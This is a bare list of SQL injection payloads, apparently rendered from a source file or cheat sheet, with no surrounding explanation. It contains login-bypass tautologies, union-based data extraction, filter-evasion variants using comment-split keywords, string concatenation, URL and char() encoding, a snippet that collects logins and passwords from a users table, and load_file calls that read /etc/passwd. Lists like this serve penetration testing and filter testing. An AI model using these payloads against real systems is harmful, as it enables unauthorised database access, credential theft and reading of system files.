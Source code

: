 `' having 1=1--`

`' group by userid having 1=1--`

`' SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = tablename')--`

`' or 1 in (select @@version)--`

`' union all select @@version--`

`' OR 'unusual' = 'unusual'`

`' OR 'something' = 'some'+'thing'`

`' OR 'text' = N'text'`

`' OR 'something' like 'some%'`

`' OR 2 > 1`

`' OR 'text' > 't'`

`' OR 'whatever' in ('whatever')`

`' OR 2 BETWEEN 1 and 3`

`' or username like char(37);`

`' union select * from users where login = char(114,111,111,116);`

`' union select`

`Password:*/=1--`

`UNI/**/ON SEL/**/ECT`

`'; EXECUTE IMMEDIATE 'SEL' || 'ECT US' || 'ER'`

`'; EXEC ('SEL' + 'ECT US' + 'ER')`

`'/**/OR/**/1/**/=/**/1`

`' or 1/*`

`+or+isnull%281%2F0%29+%2F*`

`%27+OR+%277659%27%3D%277659`

`%22+or+isnull%281%2F0%29+%2F*`

`%27+--+&password=`

`'; begin declare @var varchar(8000) set @var=':' select @var=@var+'+login+'/'+password+' ' from users where login >`

`@var select @var as var into temp end --`

`' and 1 in (select var from temp)--`

`' union select 1,load_file('/etc/passwd'),1,1,1;`

`1;(load_file(char(47,101,116,99,47,112,97,115,115,119,100))),1,1,1;`

`' and 1=( if((load_file(char(110,46,101,120,116))<>char(39,39)),1,0));`
